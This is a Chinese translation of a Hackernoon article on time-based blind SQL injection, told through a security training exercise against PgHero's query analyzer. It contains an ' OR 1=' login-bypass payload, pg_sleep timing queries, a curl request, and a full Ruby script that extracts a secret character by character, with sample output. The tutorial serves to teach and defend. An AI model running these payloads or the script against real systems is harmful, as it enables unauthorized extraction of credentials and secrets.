

# 基于时间的盲 SQL 攻击

> 原文：<https://medium.com/hackernoon/timing-based-blind-sql-attacks-bd276dc618dd>

在典型的 SQL 注入攻击中，攻击者会在原本安全的查询中插入额外的 SQL。考虑这个用户登录查询:

```
SELECT 1 FROM users WHERE email = 'user@example.org' AND password = 'password';
```

如果用户输入的密码没有被清除，攻击者可以手工创建一个可以改变查询的输入，例如`' OR 1='`:

```
SELECT 1 FROM users WHERE email = 'user@example.org' AND password = 'password' OR 1='1';
```

注入的 SQL 关闭第一个谓词，并将其与另一个始终为真的谓词进行 or 运算；这意味着这个“密码”可以用于登录任何帐户。

值得注意的是，虽然这绕过了帐户安全，但它不会泄露任何敏感信息。也就是说，这是一次*盲目的* SQL 注入攻击，因为我们看不到我们 SQL 注入的结果；对我们的登录操作的响应没有分享密码实际是什么。

## 作弄 PgHero

作为最近一次安全训练的一部分，我的任务是扮演一个假冒的攻击者，他已经获得了我们的一个管理工具的访问权限。PgHero 是一个基于 Ruby 的工具，它为 Postgres 提供了一个管理接口，重点是性能调优。它非常有用。一个包含的特性是查询解释器和分析器:



此工具提供解释或分析的结果，两者都不包括查询结果中的任何数据。通过将查询包装在事务中并回滚，该工具还可以防止数据的破坏或突变。乍一看，这似乎是一个无害的工具:不能改变任何东西，也不能恢复任何东西。

## 基于时间的攻击

虽然 Explain/Analyze 不返回查询的结果，但是它返回关于查询的元数据:*执行查询需要多长时间*。考虑以下查询:

```
SELECT CASE WHEN secret = 'secret' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;
```

如果猜测错误，该查询将快速返回，如果猜测正确，将花费大约 5s。使用这种查询风格和计时执行时间，我们现在可以从数据库中提取二进制(是/否)答案。使用`substr`，可以枚举字符串中您试图发现的每个字符:

```
-- brute force 1st character
SELECT CASE WHEN substr(secret, 1, 1) = 'a' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;
SELECT CASE WHEN substr(secret, 1, 1) = 'b' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;
SELECT CASE WHEN substr(secret, 1, 1) = 'c' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;
...-- brute force 16th character
SELECT CASE WHEN substr(secret, 16, 1) = 'a' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;
SELECT CASE WHEN substr(secret, 16, 1) = 'b' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;
SELECT CASE WHEN substr(secret, 16, 1) = 'c' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;
...
```

*注意:如果你需要做的不仅仅是概念验证，二进制搜索会比测试每种可能性快得多。*

对于每个字符，用了大约 5s 运行的查询指示了正确的字符。如果由于某种原因`pg_sleep()`不可用，任何足够慢/昂贵的查询都可以(例如，连接一个没有索引的字段)。

要对 PgHero 运行这些查询，需要将 SQL 封装在适当的 cURL 命令中:

```
curl --silent \
  -d "query='SELECT CASE WHEN substr(secret,1,1) = 'a' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id=1;'" \
  -d "commit=Analyze" \
  --user admin:password \
  [https://myhost.com/pghero/explain](https://myhost.com/pghero/explain)
```

有了[小样板](https://gist.github.com/derwiki/0b6ab5617171d4d6632e3bacd3356229)，我们可以自动化整个提取过程:

```
POSITIVE_DELAY = 2
CHARS = ('A'..'Z').to_a + ('a'..'z').to_a + ('0'..'9').to_a

def query(table, field, id, char, pos)
  %Q[SELECT CASE WHEN substr(#{field}, #{pos}, 1) = \'#{char}\' THEN pg_sleep(#{POSITIVE_DELAY}) ELSE NULL END FROM #{table} WHERE id = #{id} ;]
end

def timeit
  t0 = Time.now
  yield
  Time.now - t0
end

def curl_test(table, field, id, char, pos)
  cmd = <<-CMD.squish
    curl --silent -d "query=#{query(table, field, id, char, pos)}" -d "commit=Analyze"
      --user admin:password
      https://myhost.com/pghero/explain
  CMD
  timeit { `#{ cmd }` } > POSITIVE_DELAY
end

def retrieve_field(table, field, id)
  buffer = ""
  (1..255).each do |pos|
    found = false
    CHARS.each do |char|
      if curl_test(table, field, id, char, pos)
        puts "#{pos}: #{char}"
        buffer << char
        found = true
        break # once a match is found, move on
      end
    end
    break unless found # if nothing matched, treat as end of string
  end
  buffer
end

secret = retrieve_field('apps', 'secret', 1)
puts "secret: #{secret}"
```

这种攻击的一个例子是:

```
$ ruby blind-sql.rb
1: 6
2: 4
3: 2
4: 8
5: 9
6: a
7: 1
8: 0
9: 9
10: c
11: d
12: 6
13: 3
14: b
15: d
16: f
17: 0
18: 3
19: a
20: 8
key: 64289a109cd63bdf03a8
```

## 摘要

任何 SQL 注入攻击媒介都是坏消息。通常它们是由编程错误引起的，但是管理工具也可能暴露 SQL 注入式的攻击。如果 SQL 注入向量没有暴露查询的结果，仍然可以使用基于时间的攻击系统地提取结果。

延伸阅读:

*   [https://www.owasp.org/index.php/Blind_SQL_Injection](https://www.owasp.org/index.php/Blind_SQL_Injection)
*   http://www.sqlinjection.net/time-based/
*   [https://www . defcon . org/images/defcon-16/dc16-presentations/alon so-parada/defcon-16-alon so-parada-WP . pdf](https://www.defcon.org/images/defcon-16/dc16-presentations/alonso-parada/defcon-16-alonso-parada-wp.pdf)

[](http://bit.ly/HackernoonFB)[](https://goo.gl/k7XYbx)[](https://goo.gl/4ofytp)

> [黑客中午](http://bit.ly/Hackernoon)是黑客如何开始他们的下午。我们是 [@AMI](http://bit.ly/atAMIatAMI) 家庭的一员。我们现在[接受投稿](http://bit.ly/hackernoonsubmission)并乐意[讨论广告&赞助](mailto:partners@amipublications.com)机会。
> 
> 如果你喜欢这个故事，我们推荐你阅读我们的[最新科技故事](http://bit.ly/hackernoonlatestt)和[趋势科技故事](https://hackernoon.com/trending)。直到下一次，不要把世界的现实想当然！

